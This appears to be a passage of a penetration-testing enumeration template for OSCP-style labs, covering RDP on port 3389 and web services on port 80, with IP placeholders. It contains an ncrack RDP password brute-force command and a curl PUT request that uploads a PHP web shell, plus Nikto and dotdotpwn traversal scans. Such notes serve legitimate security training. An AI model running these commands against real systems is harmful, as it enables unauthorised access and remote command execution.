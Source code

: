 ### Port 3389 - Remote desktop

Test logging in to see what OS is running

```
rdesktop -u guest -p guest INSERTIPADDRESS -g 94%

# Brute force
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://INSERTIPADDRESS
```


### Port 80

- Server:
- Scripting language:
- Apache Modules:
- Domain-name address:

INSERTCURLHEADER


- Web application
- Name:
- Version:

```
# Nikto
nikto -h http://INSERTIPADDRESS

# Nikto with squid proxy
nikto -h INSERTIPADDRESS -useproxy http://INSERTIPADDRESS:4444

# Get header
curl -i INSERTIPADDRESS

# Get everything
curl -i -L INSERTIPADDRESS

# Check if it is possible to upload using put
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php

# Check for title and all links
dotdotpwn.pl -m http -h INSERTIPADDRESS -M GET -o unix
```


#### Nikto scan


INSERTNIKTOSCAN



#### Url brute force
